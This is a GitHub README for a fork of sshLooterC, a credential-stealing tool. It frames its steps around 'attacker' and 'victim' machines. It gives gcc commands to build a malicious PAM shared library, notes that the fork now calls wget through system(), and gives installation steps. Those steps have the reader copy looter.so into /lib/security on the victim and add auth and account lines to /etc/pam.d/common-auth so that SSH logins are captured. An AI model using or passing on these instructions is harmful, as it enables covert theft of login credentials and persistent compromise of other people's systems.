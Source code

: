 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I coded <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* PAM dev library: <b>libpam0g-dev</b>
* [Optional] To compile the program for 32bit arch you need to install <b>gcc-multilib</b> on a 64bit system

# Compilation
~~~~
gcc callLooter.c -o callLooter -m32 -ldl
gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c
~~~~
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b> the following lines:
~~~~
auth optional looter.so
account optional looter.so
~~~~
# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>

 
